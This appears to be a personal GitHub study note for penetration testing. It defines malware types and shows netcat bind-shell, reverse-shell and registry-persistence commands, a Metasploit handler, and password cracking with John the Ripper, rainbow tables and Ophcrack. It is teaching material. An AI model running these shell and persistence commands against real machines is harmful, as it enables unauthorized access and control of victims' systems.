 #### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)


![Screenshot at 2022-12-25 13-05-33](https://user-images.githubusercontent.com/85208639/209460287-434fc945-ac92-4dc4-8a47-4bc57df29c0e.png)

#### Session Management With Metasploit 
> Since we have already obtained shell previously we can use metasploit to get more features.

#### Convert Reverse Shell to Meterpreter Shell
```
use multi/hander
set LHOST, LPORT on which you will listen and run
```

#### Password Attacks

##### Password Cracking
>Process of recoveing plaintext password from hash. Here attacker tries to guess password, hashes it and then compares the result against the password file.

##### Techniques
* Bruteforce Attack (Takes heck long time but yeilds better result)
* Dictionary Attack (Faster)

##### John the Ripper
###### M4ng1ing Rules with john the ripper
```
john -wordlist=file -rules <file to crack>
```

#### Rainbow Tables:

Password Cracking with rtgen
#### Rainbow Table Creation
```
sudo rtgen md5 loweralpha 1 3 0 1000 1000 0

echo "bug" | md5sum
> ae0e4bdad7b5f67141743366026d2ea5

rcrack md5_loweralpha#1-3_0_1000x1000_0.rt -h ae0e4bdad7b5f67141743366026d2ea5 >> hash will be cracked.

```
> If salt is used during hashing then rainbow table will be useless.

#### Ophcrack
> Ophcrack is a Windows password cracking tool used to crack NT and NTLM hashes.

* First download rainbow tables and download transmission.
* Load hashes and Click on Crack.

> Resource: https://ophcrack.sourceforge.io/ https://ophcrack.sourceforge.io/tables.php


